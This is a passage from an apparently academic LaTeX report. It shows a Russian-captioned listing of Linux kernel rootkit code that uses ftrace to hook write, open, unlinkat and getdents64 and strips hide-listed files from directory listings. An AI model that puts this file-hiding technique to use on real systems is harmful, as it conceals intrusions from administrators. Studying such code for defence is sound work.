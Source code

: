 \begin{lstlisting}[label=code:hook1,caption=Файл hook.h]
		if (check_fs_hidelist(current_dir->d_name))
		{
			if (current_dir == dirent_ker )
			{
				ret -= current_dir->d_reclen;
				memmove(current_dir, (void *)current_dir + current_dir->d_reclen, ret);
				continue;
			}
			
			previous_dir->d_reclen += current_dir->d_reclen;
		}
		else
		{
			previous_dir = current_dir;
		}
		
		offset += current_dir->d_reclen;
	}
	
	error = copy_to_user(dirent, dirent_ker, ret);
	if (error)
	{
		DMSG("copy_to_user error");
	}
	
	kfree(dirent_ker);
	return ret;
}

#define SYSCALL_NAME(name) ("__x64_" name)

#define HOOK(_name, _function, _original)	\
{					\
	.name = SYSCALL_NAME(_name),	\
	.function = (_function),	\
	.original = (_original),	\
}

static struct ftrace_hook demo_hooks[] = {
	HOOK("sys_write", fh_sys_write, &real_sys_write),
	HOOK("sys_open", fh_sys_open, &real_sys_open),
	HOOK("sys_unlinkat", fh_sys_unlinkat, &real_sys_unlinkat),
	HOOK("sys_getdents64", fh_sys_getdents64, &real_sys_getdents64)
};


static int start_hook_resources(void)
{
	int err;
	err = fh_install_hooks(demo_hooks, ARRAY_SIZE(demo_hooks));
	if (err)
	{
		return err;
	}
	return 0;
}
\end{lstlisting}

